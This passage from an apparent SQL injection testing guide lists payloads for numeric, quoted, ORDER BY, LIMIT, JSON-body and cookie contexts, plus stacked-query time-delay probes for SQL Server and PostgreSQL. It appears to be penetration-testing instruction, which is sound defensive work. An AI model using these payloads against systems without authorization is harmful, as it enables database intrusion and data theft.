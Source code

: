 ## 9) Context Variations to Test

Different injection points require syntax adjustments:

### Numeric Context (no quotes):
```sql
id=1 AND 1=1 --+
id=1 UNION SELECT 1,2,3 --+
```

### Double-Quote Context:
```sql
" AND "1"="1" --+
" UNION SELECT "A",NULL,NULL --+
```

### ORDER BY Injection:
```sql
' ORDER BY CASE WHEN SUBSTRING(database(),1,1)='a' THEN 1 ELSE 2 END --+
```

### LIMIT/OFFSET:
```sql
' LIMIT 0, CASE WHEN LENGTH(database())>8 THEN 1 ELSE 0 END --+
```

### JSON Body:
Edit the JSON in Repeater:
```json
{
  "id": "1' AND 1=1 -- ",
  "action": "view"
}
```

### Cookie Parameter:
```
Cookie: session=abc123; tracking=xyz' AND 1=1 --+
```
(URL-encode quotes if needed: `%27` for `'`)[2][1]

***

## 10) Stacked Queries Test

Stacked queries allow multiple statements separated by semicolons. Test once—if blocked, abandon.

**Microsoft SQL Server:**
```sql
'; WAITFOR DELAY '00:00:05' --
```

**PostgreSQL:**
```sql
'; SELECT pg_sleep(5) --
```
